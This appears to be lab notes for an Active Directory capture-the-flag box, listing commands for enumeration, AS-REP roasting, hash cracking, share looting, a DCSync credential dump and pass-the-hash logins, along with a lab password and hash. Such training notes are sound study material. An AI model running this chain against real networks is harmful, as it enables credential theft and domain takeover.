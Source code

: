 # Kerberos-command
- to show port and version
    - `nmap -sV target IP`
    - `nmap -n -sCV target ip`
- What tool will allow us to enumerate port 139/445?
    - `enum4linux -u <username> -p <password> <target-ip>`
    - `enum4linux -n <target-ip> —-> to know domain name`
- to know valid user
    - `sudo ./kerbrute_linux_amd64 userenum -d <domain name> --dc <IP> /home/kali/userlist.txt`
- (AS-REP Roasting)To find accounts that have **pre-authentication disabled**, use **Impacket’s GetNPUsers.py**
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain name/> -dc-ip 10.10.56.247 -usersfile /home/kali/userlist.txt -format hashcat -outputfile asrep_hashes.txt
        - [`https://hashcat.net/wiki/doku.php?id=example_hashes`](https://hashcat.net/wiki/doku.php?id=example_hashes)
    </aside>
    
- to get hash type
- crack hash and get password
    - `hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/dirb --force`
    - `john --format=krb5asrep --wordlist=/home/kali/passwordlist.txt asrep_hashes.txt`
- SMBclient (Manual Interaction) —→ We can now attempt to enumerate any shares that the domain controller may be giving out.
    - `smbclient -L //<target-ip> -U <username>`
- You can check its contents by connecting to it:
    - `smbclient [//10.10.231.4/backup](https://10.10.231.4/backup) -U svc-admin`
    - `ls`
    - `get filename.txt`
- Decoding the contents of the file
    - `base64 -d backup_credentials.txt`
- Elevating Privileges within the Domain
    - know the account on the active directory
        - `rpcclient -U user%password target-ip`
        - `enumdomusers`
        - when found `DS-Replication-Get-Changes-All`  `SeBackupPrivilege`
    - make DCSync attack to take all hash of password in NTDS.DIT:
    - `impacket-secretsdump -just-dc spookysec.local/backup:backup2517860@10.10.58.140`
    
    or 
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:backupPassword@DC-IP
    </aside>
    
- make Pass-the-Hash attack to login by hash without crack hash and take password
- `evil-winrm -i 10.10.58.140 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`
    
    <aside>
    💡
    
    - python3 /usr/share/doc/python3-impacket/examples/wmiexec.py spookysec.local/Administrator@10.10.58.140 -hashes :aad3b435b51404eeaad3b435b51404ee
    </aside>
    
-
